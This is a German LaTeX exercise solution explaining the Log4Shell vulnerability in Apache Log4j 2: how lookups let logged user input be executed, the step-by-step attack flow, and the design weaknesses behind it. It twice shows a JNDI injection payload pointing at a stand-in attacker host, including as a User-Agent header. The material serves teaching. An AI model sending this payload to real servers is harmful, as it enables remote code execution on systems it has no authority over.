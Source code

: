 \documentclass[
	fontsize=12pt,
	paper=a4,
	numbers=noenddot,
	listof=totoc,
	listof=entryprefix,
	listof=nochaptergap,
	bibliography=totoc,
	parskip=half,
	openany
]{scrbook}
\begin{document}
\chapter*{Aufgabe 4: Log4j-Schwachstelle}

\section*{a) Beschreibung der Sicherheitslücke}

Die Log4j-Schwachstelle (bekannt als \emph{Log4Shell}) betrifft die weitverbreitete Java-Logging-Bibliothek Apache Log4j 2 in Versionen vor 2.17.0.

\textbf{Kernproblem:} Log4j unterstützt sogenannte \emph{Lookups} in Log-Nachrichten.
Wenn eine Benutzereingabe (z.\,B. ein HTTP-Header, ein Suchbegriff oder ein Benutzername) geloggt wird, interpretiert Log4j eingebettete Ausdrücke der Form \texttt{\$\{jndi:ldap://attacker.com/exploit\}} und führt diese aus.

\textbf{Angriffsablauf:}
\begin{enumerate}
	\item Der Angreifer sendet eine manipulierte Eingabe an eine Webanwendung, z.\,B. im User-Agent-Header:
	      \begin{lstlisting}[language=bash]
User-Agent: ${jndi:ldap://attacker.com/exploit}
	      \end{lstlisting}
	\item Die Anwendung loggt die Eingabe mit Log4j.
	\item Log4j erkennt den \texttt{\$\{jndi:...\}}-Ausdruck und führt einen JNDI-Lookup (Java Naming and Directory Interface) durch.
	\item Der JNDI-Lookup kontaktiert den vom Angreifer kontrollierten LDAP-Server.
	\item Der LDAP-Server antwortet mit einer Referenz auf eine Java-Klasse (serialisiertes Objekt).
	\item Die JVM lädt und instanziiert die Klasse $\Rightarrow$ \textbf{Remote Code Execution (RCE)} auf dem Server.
\end{enumerate}

\textbf{Zentrale Schwächen:}
\begin{itemize}
	\item \textbf{Benutzereingaben werden als Code interpretiert:} Log4j evaluiert Lookup-Ausdrücke in Log-Nachrichten, ohne zwischen vertrauenswürdigem Code und Benutzereingaben zu unterscheiden.
	\item \textbf{Netzwerkzugriff aus dem Logger:} JNDI erlaubt es, externe Ressourcen über LDAP/RMI nachzuladen, was einen Ausbruch aus der Anwendung ermöglicht.
	\item \textbf{Standardmäßig aktiviert:} Die Lookup-Funktion war in der Standardkonfiguration aktiv, ohne dass Entwickler explizit zustimmen mussten.
\end{itemize}
\end{document}
